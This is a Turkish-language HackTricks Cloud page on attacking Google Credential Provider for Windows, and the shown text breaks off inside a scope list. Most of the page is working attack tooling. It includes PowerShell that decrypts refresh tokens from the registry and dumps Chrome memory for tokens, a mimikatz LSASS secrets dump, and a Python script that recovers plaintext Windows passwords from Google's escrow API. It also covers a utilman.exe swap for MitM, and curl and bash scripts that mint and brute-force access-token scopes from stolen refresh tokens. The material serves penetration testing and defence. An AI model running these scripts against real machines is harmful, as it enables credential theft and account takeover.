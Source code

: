 # GWS - Workspace Senkronizasyon Saldırıları (GCPW, GCDS, AD & EntraID ile Dizin Senkronizasyonu)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## GCPW - Windows için Google Kimlik Sağlayıcısı

Bu, kullanıcıların **Workspace kimlik bilgilerini** kullanarak Windows PC'lerine giriş yapabilmeleri için Google Workspaces'ın sağladığı tek oturum açma sistemidir. Ayrıca, bu, PC'deki bazı yerlerde Google Workspace'e erişim için token'ları saklayacaktır.

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) 'in **GCPW**'yi tespit edebildiğini, yapılandırma hakkında bilgi alabileceğini ve **hatta token'ları** alabileceğini unutmayın.
{% endhint %}

### GCPW - MitM

Bir kullanıcı, GCPW aracılığıyla Google Workspace ile senkronize edilmiş bir Windows PC'ye eriştiğinde, yaygın bir giriş formunu doldurması gerekecektir. Bu giriş formu, PC'nin bir istekle yenileme token'ı için değiştireceği bir OAuth kodu döndürecektir:

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

Yeni satırlar okunabilirliği artırmak için eklenmiştir.

{% hint style="info" %}
Bir MitM gerçekleştirmek, PC'ye `Proxifier` yükleyerek, `utilman.exe` ikilisini `cmd.exe` ile değiştirerek ve Windows giriş sayfasındaki **erişilebilirlik özelliklerini** çalıştırarak mümkündür. Bu, **CMD**'yi çalıştıracak ve **Proxifier'ı başlatıp yapılandırmanızı** sağlayacaktır.\
`Proxifier`'da HIZLI UDP trafiğini **engellemeyi** unutmayın, böylece TCP iletişimine düşer ve görebilirsiniz.

Ayrıca "Hizmetler ve diğer kullanıcılar" bölümünde her iki seçeneği de yapılandırın ve Windows'a Burp CA sertifikasını yükleyin.
{% endhint %}

Ayrıca **`HKLM:\SOFTWARE\Google\GCPW`** anahtarına `enable_verbose_logging = 1` ve `log_file_path = C:\Public\gcpw.log` ekleyerek bazı günlüklerin saklanması sağlanabilir.

### GCPW - Parmak İzi

GCPW'nin bir cihazda kurulu olup olmadığını kontrol etmek için aşağıdaki işlemin var olup olmadığını veya aşağıdaki kayıt defteri anahtarlarının var olup olmadığını kontrol etmek mümkündür:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
In **`HKCU:\SOFTWARE\Google\Accounts`** kullanıcı e-posta adresine ve kullanıcının yakın zamanda giriş yapması durumunda şifrelenmiş **refresh token**'a erişmek mümkündür.

In **`HKLM:\SOFTWARE\Google\GCPW\Users`** `domains_allowed` anahtarında giriş yapmasına izin verilen **domainler** bulunabilir ve alt anahtarlarda kullanıcı hakkında e-posta, resim, kullanıcı adı, token ömürleri, token tutamağı gibi bilgiler bulunabilir...

{% hint style="info" %}
Token tutamağı, `eth.` ile başlayan ve bir istek ile bazı bilgilerin çıkarılabileceği bir token'dır:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

Ayrıca, bir erişim token'ının token handle'ını şu şekilde bir istekle bulmak mümkündür:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

Bildiğim kadarıyla, token handle'dan bir refresh token veya access token almak mümkün değil.
{% endhint %}

Ayrıca, dosya **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** farklı **ayarlar** hakkında bilgi içeren bir json'dur; örneğin `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (eğer Workspace'ten birkaç kullanıcı bilgisayara giriş yapabiliyorsa) ve `validityPeriodDays` (bir kullanıcının Google ile doğrudan yeniden kimlik doğrulaması yapmasına gerek olmadığı gün sayısı).

### GCPW - Kayıt Defteri Refresh Token'ları

Kayıt defteri **`HKCU:\SOFTWARE\Google\Accounts`** içinde, içinde **`refresh_token`** şifrelenmiş bazı hesaplar bulmak mümkün olabilir. **`ProtectedData.Unprotect`** yöntemi bunu kolayca şifre çözebilir.

<details>

<summary><strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> verilerini al ve refresh_tokens'ı şifre çöz</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Örnek çıkış:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

[**Bu videoda**](https://www.youtube.com/watch?v=FEQxHRRP\_5I) açıklandığı gibi, eğer kayıt defterinde token bulamazsanız, **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** değerini değiştirmek (veya silmek) mümkündür ve kullanıcı bilgisayara eriştiğinde tekrar giriş yapması gerekecek ve **token önceki kayıt defterinde saklanacaktır**.

### GCPW - Disk Yenileme Tokenleri

Dosya **`%LocalAppData%\Google\Chrome\User Data\Local State`** kullanıcının **Google Chrome profillerinde** bulunan **`refresh_tokens`** şifresini çözmek için anahtarı saklar:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Bu tokenlere şifrelenmemiş şekilde erişen bazı **C# kodlarını** [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) içinde bulmak mümkündür.

Ayrıca, şifreleme bu kodda bulunabilir: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

AESGCM'nin kullanıldığı gözlemlenebilir, şifrelenmiş token bir **sürüm** ile başlar (**`v10`** şu anda), ardından [**12B nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42) gelir ve ardından **şifreli metin** ile son bir **16B mac** bulunur.

### GCPW - Süreç Belleğinden Token Dökümü

Aşağıdaki script, `procdump` kullanarak her **Chrome** sürecini **dökme** yapmak, **stringleri** çıkarmak ve ardından **erişim ve yenileme tokenleri** ile ilgili stringleri **arama** yapmak için kullanılabilir. Eğer Chrome bir Google sitesine bağlıysa, bazı **süreçler bellek içinde yenileme ve/veya erişim tokenlerini saklayacaktır!**

<details>

<summary>Chrome süreçlerini dök ve tokenleri ara</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

`gcpw_extension.exe` ile aynı şeyi denedim ama hiçbir token bulamadı.

Bir sebepten dolayı, **bazı çıkarılan erişim token'ları geçerli olmayacak (bazıları geçerli olsa da)**. Dump'tan geçerli token'ı elde etmek için karakterleri 1'er 1'er kaldırmak amacıyla aşağıdaki scripti denedim. Geçerli bir token bulmama asla yardımcı olmadı, ama belki yardımcı olabilir diye düşünüyorum:

<details>

<summary>Karakterleri 1'er 1'er kaldırarak erişim token'ını kontrol et</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - Düz metin şifresini geri kazanma

GCPW'yi kullanarak şifrenin düz metin halini geri kazanmak için **mimikatz** kullanarak **LSASS**'dan şifrelenmiş şifreyi dökmek mümkündür:
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Sonra, resimdeki gibi `Chrome-GCPW-<sid>` şeklinde gizli anahtarı arayın:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Daha sonra, `https://www.google.com/accounts/OAuthLogin` kapsamına sahip bir **erişim belirteci** ile şifreyi çözmek için özel anahtarı talep etmek mümkündür:

<details>

<summary>Erişim belirteci, şifreli şifre ve kaynak kimliği verildiğinde şifreyi düz metin olarak elde etmek için script</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

Bunun ana bileşenlerini Chromium kaynak kodunda bulmak mümkündür:

* API alanı: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API uç noktası: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

### GCPW - Yenileme jetonlarından erişim jetonları oluşturma

Yenileme jetonunu kullanarak, aşağıdaki komutta belirtilen istemci kimliği ve istemci sırrı ile erişim jetonları oluşturmak mümkündür:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Kapsamlar

{% hint style="info" %}
Bir refresh token'a sahip olsanız bile, erişim token'ı için herhangi bir kapsam talep etmek mümkün değildir çünkü yalnızca **erişim token'ını oluşturduğunuz uygulama tarafından desteklenen kapsamları talep edebilirsiniz**.

Ayrıca, refresh token her uygulamada geçerli değildir.
{% endhint %}

Varsayılan olarak GCPW, kullanıcı olarak her olası OAuth kapsamına erişime sahip olmayacaktır, bu nedenle aşağıdaki script'i kullanarak `refresh_token` ile bir `access_token` oluşturmak için kullanılabilecek kapsamları bulabiliriz:

<details>

<summary>Kapsamları brute-force etmek için Bash script'i</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Ve yazma anında aldığım çıktı şuydu:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
Ayrıca, Chromium kaynak kodunu kontrol ederek [**bu dosyayı bulmak mümkündür**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), bu dosya **daha önce zorla elde edilen listede görünmeyen** **diğer kapsamları** içermektedir. Bu nedenle, bu ek kapsamların varsayılması mümkündür:

<details>

<summary>Ek kapsamlar</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

En ilginç olanı muhtemelen şudur:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
Ancak, bu kapsamı gmail'e erişmek veya grupları listelemek için kullanmayı denedim ve işe yaramadı, bu yüzden hala ne kadar faydalı olduğunu bilmiyorum.

**Tüm bu kapsamlarla bir erişim belirteci alın**:

<details>

<summary>Tüm kapsamlarla refresh_token'dan erişim belirteci oluşturmak için Bash betiği</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
